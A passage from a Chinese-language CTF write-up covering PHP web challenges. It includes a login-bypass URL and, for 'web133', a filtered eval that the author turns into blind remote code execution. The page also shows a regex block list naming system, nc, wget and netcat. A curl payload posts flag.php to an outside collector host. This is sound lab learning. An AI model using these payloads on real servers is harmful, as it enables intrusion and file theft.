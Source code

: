```
if(false && false || ture)
```

payload

```php
/admin/index.php?code=admin&username=admin&password=
```

## web133~无回显rce,curl

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
} 
```

分析一下代码发现仿佛是只能读取前面6个字符去执行命令，禁止了命令执行的函数，并且没有写入权限。可能利用就比较可能
 但是，如果我们传递的参数就是`$F`本身，会不会发生变量覆盖？
 那我们来一个简单的测试,

```php
get传参   F=`$F `;sleep 3
经过substr($F,0,6)截取后 得到  `$F `;
也就是会执行 eval("`$F `;");
我们把原来的$F带进去
eval("``$F `;sleep 3`");
也就是说最终会执行  `   `$F `;sleep 3  ` == shell_exec("`$F `;sleep 3");
前面的命令我们不需要管，但是后面的命令我们可以自由控制。
这样就在服务器上成功执行了 sleep 3
所以 最后就是一道无回显的RCE题目了
```

然后就是利用curl去带出flag.php
 `curl -F 将flag文件上传到Burp的 Collaborator Client （ Collaborator Client 类似DNSLOG，其功能要比DNSLOG强大，主要体现在可以查看 POST请求包以及打Cookies）`

payload:

```php
#其中-F 为带文件的形式发送post请求
#xx是上传文件的name值，flag.php就是上传的文件 
?F=`$F `;curl -X POST -F xx=@flag.php  http://xxx
```

[![r0wQeJ.png](https://s3.ax1x.com/2020/12/21/r0wQeJ.png)](https://imgchr.com/i/r0wQeJ)
